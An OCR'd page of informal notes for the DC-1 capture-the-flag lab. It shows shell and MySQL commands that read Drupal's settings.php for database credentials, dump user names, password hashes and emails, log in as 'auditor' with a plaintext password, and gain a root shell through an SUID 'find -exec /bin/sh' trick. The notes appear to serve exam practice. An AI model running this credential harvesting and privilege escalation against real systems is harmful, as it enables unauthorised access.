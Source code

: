     www-data@DC-1:/var/www/sites$ `ls`
    
    www-data@DC-1:/var/www$ `cd default`
    
    www-data@DC-1:/var/www/sites/default$ `ls`
    
    www-data@DC-1:/var/www/sites/default$ `cat settings.php`
    
    We will get the database credentials in the settings.php file
    
    Now login to mysql database using the cred we get in the settings.php file
    
    www-data@DC-1:/var/www$ `mysql -u dbuser -D drupaldb -p`
    
    password: R0ck3t
    
    Login successful
    
    mysql> `show databases;`
    
    mysql> `use drupaldb;` in exam it is syntex
    
    mysql> `show tables;`
    
    mysql> `SELECT * FROM users;`
    
    mysql> `SELECT name,pass,mail FROM users;`
    
    copy all the details and exit it
    
    mysql> `exit`
    
    Login to user Acc
    
    Now login via ssh
    
    $ `ssh auditor@198.168.100.52`
    
    passwrd: qwertyuiop
    
    Login successful to auditor terminal
    
    get flag of user
    
    Another way
    
    www-data@DC-1:/var/www$ `su auditor`
    
    enter password: qwertyuiop
    
    Login successful to auditor terminal
    
    auditor@kalilinux$ get the user flag here
    
    Priv Esc
    
    Now priv escalation to get admin - SUID
    
    www-data@DC-1:/var/www$ `find /etc/passwd -exec ‘/bin/sh’ \\;`
    
    the above command will give root access shell
    
    #`cd /root`
    
    #`ls`
    